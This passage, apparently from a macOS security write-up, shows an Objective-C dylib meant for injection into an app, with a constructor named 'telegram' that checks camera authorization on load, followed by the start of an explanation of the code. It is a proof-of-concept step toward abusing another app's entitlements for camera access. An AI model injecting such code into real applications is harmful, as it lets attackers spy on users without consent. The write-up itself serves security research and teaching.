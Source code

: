 

And the same goes for the other `Entitlements`. Now it's the time to start exploiting this and showcase for each one of

the `Entitlement`. Before we start we will need to use the `launch agent` to bypass the restrictions. But fIRST Let's see what

will happen if we Injected the following `DyLib`:


```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface CameraAccessChecker : NSObject

+ (BOOL)hasCameraAccess;

@end

@implementation CameraAccessChecker

+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [CameraAccessChecker hasCameraAccess];
}
```


So, This `DyLib` will check if we have access to the camera or not. Let's explain the code.


```
#import <Foundation/Foundation.h> 
#import <AVFoundation/AVFoundation.h>
```


Here we imported the required frameworks. `Foundation` provides fundamental classes and data types, while `AVFoundation` providing

classes for working with audio and video.

